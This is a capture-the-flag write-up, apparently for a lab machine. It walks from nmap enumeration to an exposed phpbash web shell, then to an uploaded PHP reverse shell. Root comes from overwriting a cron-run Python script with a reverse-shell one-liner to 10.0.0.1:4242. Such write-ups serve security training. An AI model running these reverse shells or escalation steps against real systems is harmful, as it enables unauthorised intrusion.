










# Enumeration
- using `sudo nmap -p- -A -T4 -Pn 10.10.10.68 ` to enumerate we find:
- We find a webpage on the ip address:
	The article mentions about https://github.com/Arrexel/phpbash
- The github page states that a bash cli is present on the website accessible by xyz/phpbash.php hence we use dirbuster and find that it exists:
- We navigate to the above mentioned directory and find a bash terminal with user privileges where we can collect our flag from user.txt
- Then we upload a reverse shell from https://github.com/pentestmonkey/php-reverse-shell and execute it by visiting the webpage http://10.10.10.68/uploads/reverse-php-shell.php while listening through netcat using `nc -nvlp 4444`
- We notice that we do not have full tty so we execute the following to gain full tty:
	```
	python3 -c 'import pty; pty.spawn("/bin/bash")'
	(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
	```
- After we gain full tty we find the linux version and other details using:
	```
	(cat /proc/version || uname -a ) 2>/dev/null
	lsb_release -a 2>/dev/null # old, not by default on many systems
	cat /etc/os-release 2>/dev/null # universal on modern systems
	```

	After which we found out the linux machine runs Ubuntu 16.04.2 LTS
	For which we discovered an exploit https://www.exploit-db.com/exploits/44298 which we compiled to a php file for uploading using `gcc 44298.c -o hax.php` which we uploaded using the phpbash.
- Now we can rename it from php to unnamed `mv hax.php hax` and make it executable `chmod +x hax`
- We found out using `sudo -l` that scriptmanager can execute all commands without password
- So we can access the user by doing  `sudo -u scriptmanager /bin/bash` 
- Found an unusual scripts folder 
- We find a text.py file in that which executes frequently and makes a  text.txt file which is owned by root: 
- Using this cheatsheat https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#perl we make a test.py file with: `import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])`
- then use wget to move it to the scripts directory and replace the test.py
- we get a root shell